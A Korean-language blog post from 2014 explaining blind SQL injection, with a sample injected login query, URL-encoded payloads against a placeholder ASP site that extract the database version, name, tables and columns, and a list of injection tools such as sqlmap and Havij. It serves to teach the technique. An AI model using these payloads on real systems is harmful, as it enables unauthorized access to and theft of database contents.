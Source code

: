 ```yaml
---
layout: post
title: "Blind SQL injection"
date: 2014-06-14 01:49:20 +0900
comments: true
categories: 
---
```


#### Blind SQL injection

Case
    
    UNAME = "' or (ascii(substr(select user(),1,1))>63) --"
    PASS = ""
    QUERY = "select * from users where uname='" +UNAME+ "' and pass='" +PASS+ "'"

이런 상황에서 QUERY 는 다음과 같이 eval 된다. 

    select * from users where uname='' or (ascii(substr(select user(),1,1))>63) --' and pass=''

`uname=''` 을 만족하는 row 는 없을테니, `or` 뒷부분에 따라, 전체 query 의 결과가 달라진다.
이 차이가 HTTP Response Code 로 나타날 수도 있고, data 의 내용에 차이가 생길수도 있다. 
SQL WaitFor 로 Delay 를 삽입할 수도 있다.
Query 결과가 화면에 덤프되지는 않지만, 이런 미세한 차이를 보고 query 의 결과값을 추측하는 것이다.

우선 DB 종류를 확인.

    http://xxx.xxx.com/abc.asp?idConc=555%27%20or%20ascii(substring((select%20@@version),1,1))=94--

DB 이름을 덤프.

    http://xxx.xxx.com/abc.asp?idConc=555%27%20or%20ascii(substring((select%20DB_NAME(0)),1,1))=94--

TABLE 을 덤프.

    http://xxx.xxx.com/abc.asp?idConc=555%27%20or%20ascii(substring((select%20top%201%20TABLE_NAME%20from%20INFORMATION_SCHEMA.TABLES),1,1))=94--

TABLE schema 를 덤프.

    select top 1 COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='xxx_acesso';

그럼 쓸만한 query 들을 얻기 위해, Havij 가 사용하는 SQL query 들을 분석하도록 한다.

#### Havij

* [Hacking is child's play - SQL injection with Havij by 3 year old](http://www.troyhunt.com/2012/10/hacking-is-childs-play-sql-injection.html)
* [YouTube: Hacking is child's play - SQL injection with Havij by 3 year old](http://www.youtu.be/Fp47G4MQFvA)

#### BBQSQL

* [DEFCON 20: Rapid Blind SQL Injection](http://www.youtube.com/watch?v=Dh9Pa0kDfsc)
* [bbqsql github repo](https://github.com/Neohapsis/bbqsql)

#### SQL injection 에 관해 읽을만한 글은

* [libinjection](https://media.blackhat.com/bh-us-12/Turbo/Galbreath/BH_US_12_Galbreath_Libinjection_Slides.pdf)
* [New Techniques in SQLi Obfuscation](http://www.slideshare.net/nickgsuperstar/new-techniques-in-sql-obfuscation)

#### Tools

* bbqsql
* sqlmap
* sqlninja
* BSQL Hacker
* the Mole
* Havij

